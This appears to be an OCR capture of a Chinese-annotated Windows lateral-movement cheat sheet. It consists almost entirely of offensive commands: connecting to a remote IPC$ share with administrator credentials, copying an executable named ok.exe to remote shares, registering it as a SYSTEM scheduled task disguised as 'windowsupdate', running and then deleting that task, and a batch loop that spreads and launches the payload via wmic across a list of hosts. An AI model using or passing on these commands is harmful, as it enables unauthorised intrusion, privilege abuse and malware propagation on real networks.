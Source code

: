 	>net use \\192.168.0.55\ipc$ "password" /user:"domain\administrator"
	>schtasks /query /fo LIST /v 查看计划任务
	上传文件
	>copy ok.exe \\192.168.0.55\c$\windows\temp
	Windows server 2012及以上
	远程创建定时任务 
	>schtasks /create /s "192.168.0.55" /u "admin" /p "qqq23" /RL HIGHEST /F /tn "windowsupdate" /tr "c:\windows\temp\ok.exe" /sc DAILY /mo 1 /ST 20:28 /RU SYSTEM
	查询远程创建的任务
	>schtasks /query /s "192.168.0.55" /U "admin" /P "qqq23" | findstr "windowsupdate" 
	立即执行远程任务
	>schtasks /run /tn windowsupdate /s "192.168.0.55" /U "admin" /P "qqq23" 
	删除定时任务 
	>schtasks /Delete /tn windowsupdate /F /s "192.168.0.55" /u "admin" /p "qqq23"
	删除IPC
	>net user name /del /y
	横向批量上线
	>for /f %i in (ip.txt) do net use \\%i\admin$ /user:"administrator" "password" & if %errorlevel% equ 0 ( copy ok.exe \\%i\admin$\debug\ /Y ) & wmic /NODE:"%i" /user:"administrator" /password:"password" PROCESS call create "c:\windows\debug\ok.exe" & @ping 127.0.0.1 -n 8 >nul & net use \\%i\admin$ /del
